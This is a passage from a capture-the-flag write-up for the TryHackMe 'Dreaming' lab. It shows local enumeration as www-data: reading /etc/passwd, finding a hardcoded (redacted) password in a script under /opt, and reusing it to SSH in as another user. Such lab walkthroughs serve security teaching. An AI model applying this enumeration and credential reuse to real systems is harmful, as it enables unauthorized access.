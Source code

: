 We can enumerate the local users on the system by reading the `/etc/passwd` file.
```bash
www-data@dreaming:/$ cat /etc/passwd      
root:x:0:0:root:/root:/bin/bash
<SNIP>
lucien:x:1000:1000:lucien:/home/lucien:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:118:MySQL Server,,,:/nonexistent:/bin/false
death:x:1001:1001::/home/death:/bin/bash
morpheus:x:1002:1002::/home/morpheus:/bin/bash
```

A quick enumeration of the file system reveals the presence of two scripts in the `/opt` directory.
```bash
www-data@dreaming:/$ ls -l opt
total 8
-rwxrw-r-- 1 death  death  1574 Aug 15  2023 getDreams.py
-rwxr-xr-x 1 lucien lucien  483 Aug  7  2023 test.py
```

The `test.py` file contains a password that matches the username Lucien.
```bash
www-data@dreaming:/opt$ cat test.py 
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "<REDACTED>"

<SNIP>
```

We can use this password to connect to the target as Lucien using SSH and read the first flag.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Dreaming/Misc File]
└─$ ssh lucien@10.10.162.34
                                  {} {}
                            !  !  II II  !  !
                         !  I__I__II II__I__I  !
                         I_/|--|--|| ||--|--|\_I
        .-'"'-.       ! /|_/|  |  || ||  |  |\_|\ !       .-'"'-.
       /===    \      I//|  |  |  || ||  |  |  |\\I      /===    \
       \==     /   ! /|/ |  |  |  || ||  |  |  | \|\ !   \==     /
        \__  _/    I//|  |  |  |  || ||  |  |  |  |\\I    \__  _/
         _} {_  ! /|/ |  |  |  |  || ||  |  |  |  | \|\ !  _} {_
        {_____} I//|  |  |  |  |  || ||  |  |  |  |  |\\I {_____}
   !  !  |=  |=/|/ |  |  |  |  |  || ||  |  |  |  |  | \|\=|-  |  !  !
  _I__I__|=  ||/|  |  |  |  |  |  || ||  |  |  |  |  |  |\||   |__I__I_
  -|--|--|-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |--|--|-
  _|__|__|   ||_|__|__|__|__|__|__|| ||__|__|__|__|__|__|_||-  |__|__|_
  -|--|--|   ||-|--|--|--|--|--|--|| ||--|--|--|--|--|--|-||   |--|--|-
   |  |  |=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |  |  |
   |  |  |-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |  |  |
   |  |  |=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||-  |  |  |
  _|__|__|   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |__|__|_
  -|--|--|=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |--|--|-
  _|__|__|   ||_|__|__|__|__|__|__|| ||__|__|__|__|__|__|_||-  |__|__|_
  -|--|--|=  ||-|--|--|--|--|--|--|| ||--|--|--|--|--|--|-||=  |--|--|-
  jgs |  |-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||-  |  |  |
 ~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^~~~~~~~~~~~

W e l c o m e, s t r a n g e r . . .
```